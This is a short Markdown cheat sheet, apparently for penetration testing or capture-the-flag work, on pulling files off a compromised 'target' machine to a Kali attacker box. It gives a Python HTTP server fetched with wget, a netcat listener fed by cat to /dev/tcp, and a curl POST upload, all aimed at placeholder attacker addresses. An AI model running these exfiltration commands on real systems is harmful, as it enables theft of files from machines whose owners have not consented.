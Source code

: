 # Download
Very often we want to download and open locally a file we found in the target machine.

## Python
The simplest way to do it is to start a Python Server in the same directory of the file and send a GET request

```console
# [TARGET] From shell
python3 -m http.server {PORT}

# [KALI] From shell
wget {TARGET_IP}:{PORT}/{FILE_NAME}

# [KALI] From browser
http://{TARGET_IP}:{PORT}/{FILE_NAME}
```

## Cat
It can happen the target System has not python installed. In this case we can send any file using cat
```console
# From kali
nc -lvnp 9001 > file_name

# From target
cat {FILE} > /dev/tcp/{KALI_IP}/9001

```


## Curl
It can happen the target System has not python installed. In this case we can start a Python server locally and send a POST request (simulating an upload).
downloader.py can be found on `scripts` folder

```console
# From kali
python downloader.py

# From target 
curl {KALI_IP}:9002 -X POST -F 'file=@"{/path/file}"'
```